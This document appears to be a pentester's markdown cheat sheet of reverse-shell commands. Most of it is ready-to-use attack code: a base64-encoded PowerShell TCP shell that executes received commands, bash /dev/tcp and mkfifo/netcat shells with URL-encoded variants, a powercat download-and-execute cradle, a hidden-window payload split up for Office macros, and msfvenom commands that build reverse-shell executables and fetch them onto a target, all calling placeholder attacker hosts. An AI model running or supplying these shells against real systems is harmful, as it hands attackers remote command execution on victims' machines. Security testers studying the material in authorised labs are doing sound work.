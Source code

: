 # Reverse shells

## References

- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://www.revshells.com/
- Hacktricks: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells

## Listener

```
nc -nvlp PortAtt
```

## URL encoding

- https://en.wikipedia.org/wiki/Percent-encoding
- https://www.urlencoder.io/

## Powershell

```
$ pwsh
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("attackerIp",attackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)

cmd> powershell -enc xyz
```

## Bash 

```
bash -c "bash -i >& /dev/tcp/ip/port 0>&1"
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fip%2Fport%200%3E%261%22
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc AttackerIP AttackePort > /tmp/f
rm%20%2Ftmp%2Ff%20%3B%20mkfifo%20%2Ftmp%2Ff%20%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20AttackerIP%20AttackePort%20%3E%20%2Ftmp%2Ff
```
Other shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Powercat - Office

```
IEX(New-Object System.Net.WebClient).DownloadString('http://IpAtt/powercat.ps1');powercat -c IpAtt -p PortAtt -e powershell

str = "powershell.exe -nop -w hidden -e xxxx..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')

cd /usr/share/powershell-empire/empire/server/data/module_source/management
python3 -m http.server 80
```

## Mfsvenom

```
msfvenom -h
msfvenom --list payloads
msfvenom --list platforms
msfvenom --list formats
msfvenom -p linux/x86/shell_reverse_tcp --list-options
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f elf > shell.elf
msfvenom -p linux/x86/shell_reverse_tcp LHOST=IpAttacker LPORT=PortAttacker -f exe > windows_reverse.exe
Invoke-WebRequest -Uri http://IpAttacker/windows_reverse.exe -OutFile windows_reverse.exe
```
